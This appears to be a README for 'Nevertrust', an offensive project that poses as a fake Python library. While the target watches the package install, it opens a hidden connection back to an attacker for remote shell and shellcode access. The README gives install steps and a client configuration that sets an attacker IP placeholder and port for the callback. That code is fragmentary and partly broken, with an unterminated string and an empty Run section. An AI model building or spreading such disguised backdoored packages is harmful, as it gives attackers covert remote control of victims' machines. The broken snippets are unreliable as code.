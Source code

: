 # Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

first you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run


